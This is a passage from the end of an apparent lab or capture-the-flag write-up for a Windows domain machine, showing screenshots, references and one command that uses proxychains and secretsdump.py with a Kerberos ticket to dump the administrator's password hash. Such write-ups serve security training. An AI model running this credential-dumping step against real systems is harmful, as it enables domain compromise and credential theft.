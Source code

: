<img src="https://i.imgur.com/RX0XpiA.png"/>

Using the TGT to dump administrator's hash

```bash
proxychains secretsdump.py -k -no-pass kaiju.vl/'BERSRV100$'@BERSRV100.kaiju.vl
```

<img src="https://i.imgur.com/TzVgk5S.png"/>

<img src="https://i.imgur.com/3shINBI.png"/>

# References


- https://forum.filezilla-project.org/viewtopic.php?f=6&t=56283
- https://hashcat.net/forum/thread-7854.html
- https://www.alitajran.com/disable-windows-firewall-with-powershell/
- https://github.com/jellever/StreamDivert
